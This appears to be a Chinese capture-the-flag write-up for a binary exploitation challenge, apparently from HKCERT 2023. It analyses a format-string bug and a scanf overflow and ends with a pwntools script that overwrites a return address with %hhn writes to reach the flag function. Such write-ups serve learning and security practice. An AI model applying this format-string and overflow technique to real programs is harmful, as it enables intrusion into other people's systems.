





# 前言
这道题在我看来非常离谱（我比较菜）
## IDA
首先，IDA 在这里感觉有点拉胯
反汇编里完全没有 strcpy……它凭空反编译出了一个 strcpy 函数，但汇编本身是没问题的
"You are cheating" 和 "Bye" 这两个字符串被放在栈上，是直接写入的；这两个字符串不在全局变量里（难怪字符串搜索没找到）



## movabsq
movabsq 是一个新加入的指令，用于把一个 64 位的值直接存入一个 64 位寄存器
## ja
JA（jump above）是大于则跳转，它比较两个无符号数的大小关系，大于就跳转
##   pretty_alert
这个鬼函数用了 printf，其中一次 printf 调用把 pretty_alert 的第一个参数作为自己的第一个参数，这里可以利用格式化字符串漏洞（这一点可以从输出和动态调试中发现）

## scanf("%s",s)
明显的溢出……
# 开始 pwn
所有保护都开了（国外赛题的常规操作）

正常逻辑绕不过 exit，只能用 printf 的格式化字符串，但 exit 之前只能 printf 一次，所以必须绕过 exit。pretty_alert 和 exit(0) 紧挨着——为什么不用 printf 的任意写去改 pretty_alert 的返回地址呢？

# 随机化

八个字节会变化，但最低四位始终保持不变


#  思路
溢出可以修改后面变量的值
找到了一条可利用的 rbp 链；嵌套两轮就够了
第一轮嵌套把栈上某个位置的值改为返回地址所在的地址
第二轮嵌套把该返回地址所在位置的实际内容改为输出 flag 的那个函数

但要注意，在一次 printf 中，第一次修改的内容可能还没来得及更新就要用于第二次修改，所以
# exp

```python
from pwn import *

while True:
    try: 
        r=process("./chall")
        #gdb.attach(r,"b main")
        #r = remote('chal.hkcert23.pwnable.hk', 28246)
        #r.clean()
        
        r.sendline(b'Y\x00'.ljust(0x2b, b'A') + b'%c%c%c%c%c%c%c%c%c%c%46c%8$hhn%119c%22$hhn')
        r.sendline(b'1')
        r.sendline(b'1')
        r.recvuntil(b'The flag is ')
        r.interactive()
        break
    except KeyboardInterrupt:
        break
    except EOFError:
        r.close()
    

```

